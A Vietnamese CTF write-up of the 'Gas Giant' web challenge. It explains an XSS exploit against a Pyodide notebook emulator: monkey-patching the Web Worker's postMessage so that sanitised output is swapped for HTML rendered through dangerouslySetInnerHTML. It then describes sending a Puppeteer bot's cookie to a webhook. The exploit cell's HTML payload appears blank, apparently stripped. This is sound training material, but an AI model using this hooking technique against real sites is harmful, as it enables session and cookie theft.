



# CTF Writeup: Gas Giant (Web/Client-side)

## 1. Challenge Description
Bài toán cung cấp một trình giả lập Jupyter Notebook rút gọn chạy bằng **Pyodide** (Python thực thi trong trình duyệt thông qua WebAssembly). Người dùng có thể upload file `.ipynb`, chia sẻ link và gửi URL cho một con bot (Puppeteer) để kiểm tra. Mục tiêu là lấy được giá trị của cookie `flag` được set trong trình duyệt của bot.




## 2. Vulnerability Analysis

### Frontend (React)
Kiểm tra mã nguồn frontend tại component `CodeCellOutput`, ta phát hiện lỗi XSS cơ bản thông qua việc sử dụng thuộc tính `dangerouslySetInnerHTML` để hiển thị kết quả HTML từ các cell của notebook:

```javascript
if (trusted && mimes['text/html']) return (
    <div dangerouslySetInnerHTML={{ __html: mimes['text/html'] }} />
)
```

### Sandbox (Web Worker - Pyodide)
Tuy nhiên, tác giả đã cài đặt một cơ chế phòng thủ bên trong Web Worker (nơi thực thi Python). Mọi kết quả từ Python trả về (`execute_result` và `display_data`) đều bị ghi đè bằng một thông báo an toàn:

```javascript
const publishExecutionResult = (prompt_count, data, metadata) => {
    self.postMessage({
        id,
        output_type: 'execute_result',
        data: { 'text/plain': '<'execute_result' output disabled due to security reasons>' },
        // ...
    });
};
```

Cơ chế này ngăn chặn việc in trực tiếp mã HTML/JS độc hại từ Python ra frontend.

## 3. Exploitation Strategy

> **Ý tưởng cốt lõi:** Thay vì cố gắng bypass sandbox ở phía Python, ta tấn công ngay tại **điểm trung gian** — hàm `postMessage` dùng để truyền dữ liệu từ Web Worker ra ngoài. Nếu ta kiểm soát được luồng dữ liệu tại đây, ta có thể "tráo hàng" từ output hợp lệ sang payload XSS mà lớp bảo vệ của tác giả không hay biết.

Chuỗi tấn công diễn ra theo 3 giai đoạn liên tiếp:

```
Python (Pyodide)
    └─► js.eval() ─► Monkey Patch self.postMessage
                          │
                          ▼
              Web Worker gửi msg bị đánh tráo
                          │
                          ▼
              React nhận HTML độc hại → dangerouslySetInnerHTML
                          │
                          ▼
               kích hoạt → đánh cắp cookie bot
```

### Bước 1: Monkey Patching `postMessage`
Vì mã Python chạy trong cùng môi trường Web Worker với script bảo mật của tác giả, chúng ta có thể sử dụng thư viện `js` của Pyodide để can thiệp vào Javascript global (`self`).

Ý tưởng là **ghi đè (Hooking)** hàm `self.postMessage`. Khi hàm bảo vệ của tác giả gọi `postMessage` để gửi kết quả "đã làm sạch" ra ngoài, hàm giả mạo của chúng ta sẽ chặn lại, tráo đổi nội dung thành mã XSS, rồi mới gửi đi thật sự.

### Bước 2: Bypass innerHTML Script Execution
Vì React sử dụng `innerHTML`, các thẻ `<script>` sẽ không được thực thi. Ta sử dụng thẻ `` với thuộc tính `onerror` để kích hoạt Javascript lấy cookie.

### Bước 3: Cookie Scope & Localhost
Bot cấu hình cookie `flag` với domain là `localhost`. Do đó, ta phải lừa bot truy cập thông qua `http://localhost:3000` thay vì tên miền bên ngoài để trình duyệt gửi kèm cookie trong request.

## 4. Final Payload

Tạo một file `exploit.ipynb` với một cell duy nhất chứa nội dung sau:

```python
import js
js_code = f"""
const origPostMessage = self.postMessage;
self.postMessage = function(msg) {{
    if (msg.output_type === 'execute_result' || msg.output_type === 'display_data') {{
        msg.output_type = 'display_data';
        msg.data = {{
            'text/html': ''
        }};
    }}
    origPostMessage.call(this, msg);
}};
"""
js.eval(js_code)
"A"
```

## 5. Execution
1. Upload file `exploit.ipynb` lên hệ thống.
2. Lấy URL chia sẻ được sinh ra (URL chứa tham số `d=` là chuỗi Base64 của notebook).
3. Thay đổi domain và port trong URL thành: `http://localhost:3000/render?d=...`
4. Gửi URL này cho Bot thông qua chức năng Report/Security.
5. Bot truy cập, bấm nút **Run**, mã Python thực thi và kích hoạt bẫy `postMessage`.
6. XSS thực thi trên trình duyệt bot, gửi `document.cookie` về Webhook.

## 6. Conclusion
Webhook thu thập được flag khi bot nhấn vào nút run



Ta decode base64 là sẽ lấy được flag



---

**Key takeaways:**
*   **Monkey Patching** trong môi trường Web Worker là kỹ thuật mạnh mẽ để bypass các cơ chế bảo mật tầng ứng dụng.
*   Hiểu rõ về **Cookie Domain Scope** là yếu tố then chốt để khai thác thành công các bài tập giả lập bot Puppeteer.